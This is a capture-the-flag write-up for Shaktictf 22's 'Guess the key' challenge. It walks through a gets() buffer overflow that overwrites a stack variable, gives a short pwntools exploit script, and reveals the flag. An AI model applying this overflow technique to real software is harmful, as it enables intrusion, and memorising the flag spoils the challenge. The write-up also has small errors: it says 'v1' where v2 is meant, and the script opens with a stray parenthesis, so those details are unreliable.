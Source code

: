 # Shaktictf 22 write-ups

## Guess the key

DESCRIPTION:
Guess the correct key to win!

Note:The server is running on Ubuntu 20.04.

Author: Claire de lune

FLAG FORMAT: shakti{}
### Intended solution 
This is a basic variable overwrite challenge.
A binary file is given as an attachment, where the usual checks give:

![](https://i.imgur.com/bwRNZWV.png)

![](https://i.imgur.com/iuONMGu.png)
 
 Running the file-

 ![](https://i.imgur.com/pIXUlKL.png)

Decompiling the func fuction in binary gives the following-
```
int func()
{
  char v1[60]; // [rsp+0h] [rbp-40h] BYREF
  int v2; // [rsp+3Ch] [rbp-4h]

  puts("Guess the correct key to win!");
  v2 = -559038737;
  printf("Enter the key: ");
  gets(v1);
  if ( v2 == -889275714 )
    return system("cat flag.txt");
  puts("Wrong Key");
  return puts("Try again!");
}
```
Here '-559038737' is `0xdeadbeef` and '-889275714' is `0xcafebabe`.We have to overwrite the variable v2 to `0xcafebabe` to pass the check and cat flag.

There is a gets function present in func(). So we can we can overfow the buffer and then access v2 through that.
On the stack, the size of v1 is 60 bytes, in order to overwrite v2, we must overflow v1 with 60 bytes of junk data and then overwrite v1 with `0xcafebabe`


Exploit:
```python=
(from pwn import *
elf = ELF("variable")
io = process(elf.path)
payload =b'a'*60 + p64(0xcafebabe)
io.sendline(payload)
io.interactive()
```
This gives us the flag: `shakti{0verWr171ng_15_FuN}`
